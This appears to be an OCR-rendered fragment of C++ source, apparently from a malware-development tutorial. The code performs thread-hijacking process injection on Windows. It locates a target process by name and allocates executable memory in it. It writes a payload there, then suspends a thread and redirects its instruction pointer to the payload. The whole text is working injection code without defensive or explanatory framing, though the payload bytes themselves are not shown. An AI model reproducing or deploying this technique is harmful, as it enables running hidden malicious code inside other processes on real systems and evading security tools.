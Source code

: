 ```cpp
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ct.ContextFlags = CONTEXT_FULL;
    te.dwSize = sizeof(THREADENTRY32);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len,
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, 
    my_payload_len, NULL);

    // find thread ID for hijacking
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(hSnapshot, &te)) {
      do {
        if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
          break;
  	}
      } while (Thread32Next(hSnapshot, &te));
    }

    // suspend target thread
    SuspendThread(ht);
    GetThreadContext(ht, &ct);
    // update register (RIP)
    ct.Rip = (DWORD_PTR)rb;
    SetThreadContext(ht, &ct);
    ResumeThread(ht);

    CloseHandle(ph);
  }
  return 0;
}
```
